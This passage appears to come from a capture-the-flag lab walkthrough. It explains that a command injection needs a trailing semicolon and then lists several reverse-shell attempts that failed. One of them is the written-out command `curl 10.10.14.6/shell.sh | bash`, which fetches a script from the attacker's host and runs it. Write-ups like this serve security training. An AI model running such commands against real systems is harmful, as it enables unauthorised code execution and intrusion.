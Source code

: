 ![](/img/image-20230301141328847.png)

It is important to have the trailing `;` at the end or else it doesn't
work. Likely the box is adding something to the end that leads to an
error, but the semicolon just pushes that to the next command.

#### Shell

There are a few things I'll try that don't work, including:

-   a basic [bash reverse
    shell](https://www.youtube.com/watch?v=OjkVep2EIlw) in directly in
    the request;
-   base64 encoding that shell and echoing it to decode and then piping
    into `bash`;
-   trying `curl 10.10.14.6/shell.sh | bash` (no connection at my
    webserver).
